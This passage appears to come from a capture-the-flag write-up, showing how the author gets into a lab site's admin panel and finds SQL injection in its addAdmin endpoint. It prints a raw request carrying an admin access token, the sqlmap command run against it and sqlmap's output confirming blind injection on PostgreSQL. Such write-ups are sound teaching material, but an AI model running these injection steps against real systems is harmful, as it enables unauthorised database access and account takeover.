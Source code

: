 Voilà! We get access to admin panel!

## SQL Injection on Admin Panel
We find two user input points on the panel: newProduct and addAdmin. We should test each of these new endpoints for different types of attacks. 

> [!NOTE]  
> Making users admin via the admin panel will not grant them access to /admin page. This is done to ensure that competitors don't help other teams by making them admin by mistake. 

Running sqlmap on both, we find that the addAdmin endpoint is vulnerable to SQL injection. 


```
┌──(kali㉿kali)-[~/Blitz]
└─$ cat addAdmin.req 
POST /admin/addAdmin HTTP/1.1
Host: 192.168.100.131:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 10
Origin: http://192.168.100.131:8000
Connection: close
Cookie: accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MjEsImlzQWRtaW4iOnRydWUsImlhdCI6MTY5NTkwNzkyMywiZXhwIjoxNjk1OTk0MzIzfQ.yFKfelgf-DjHsJsf4brLIKnbkNL3MbQrdSag9cuCO2E

{"id":"1"}
```

```
┌──(kali㉿kali)-[~/Blitz]
└─$ sqlmap -r addAdmin.req --batch
        ___
       __H__                                                                                                               
 ___ ___["]_____ ___ ___  {1.7.8#stable}                                                                                   
|_ -| . [']     | .'| . |                                                                                                  
|___|_  [)]_|_|_|__,|  _|                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:17:15 /2023-09-28/

[10:17:15] [INFO] parsing HTTP request from 'addAdmin.req'
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter 'accessToken' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
...
[10:17:16] [INFO] (custom) POST parameter 'JSON id' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --code=200)
[10:17:16] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'PostgreSQL' 
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] Y
[10:17:16] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
```